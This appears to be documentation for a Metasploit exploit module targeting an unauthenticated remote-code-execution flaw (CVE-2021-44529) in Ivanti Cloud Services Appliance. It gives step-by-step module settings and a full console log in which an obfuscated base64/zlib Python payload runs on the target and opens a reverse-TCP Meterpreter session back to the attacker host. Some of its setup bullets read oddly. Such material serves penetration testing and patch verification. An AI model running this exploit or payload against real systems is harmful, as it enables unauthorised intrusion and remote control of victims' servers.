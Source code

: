 * Open up WireShark and then click `System` on the tabs on the left side of the screen.
* Under `Network Settings`, click the `Save` button, then check WireShark for DNS requests to
  `centos` related endpoints. You should see a few that are from the CSA target.
* Save and run the Metasploit module below against the CSA target IP.

1. `use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529`
1. `set RHOSTS <CSA target IP>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-PHP command or 2-Linux dropper>`
1. `exploit`
1. You should get a `bash` shell, `python` shell  or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Ivanti Cloud Services Appliance RCE using payload cmd/unix/python/meterpreter/reverse_tcp
```
msf > use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529
[*] Using configured payload cmd/unix/python/meterpreter/reverse_http
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 0
target => 0
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Unix Command with echo exec\(__import__\(\'zlib\'\).decompress\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'eNo9UE1LxDAQPTe/IrckGEO71K4uVhDxICKCuzeRpU1GDU3TkGS1Kv53G7I4hxnezJs3H3p0k484THKAyL+N7nnfBWhqHqI/yMijHgG9Th7PWFvsO/sGtCrZBhXRfy2+CG1uFjnQFT/i7ePN/X67e7q9fmCJJ+RkLchIKakuVqJqzkVVlmJNeL0YS5zeQzegAmYJLibxNF0EA+DoGUOmzUuJg3WdHCi5uiM8CA/ygy4Cz+ULUu0RG4Y+37UBbMBSxS7NIqdO/qunOc0QzCBpulsokNPoPIRA8wtE39QpqSAx+Q8JZBN+GfoDHtFfMQ\=\=\'\)\[0\]\)\)\) | exec $(which python || which python3 || which python2) -
[*] Sending stage (24380 bytes) to 192.168.100.41
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.41:59430) at 2023-01-08 16:43:38 +0000

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```
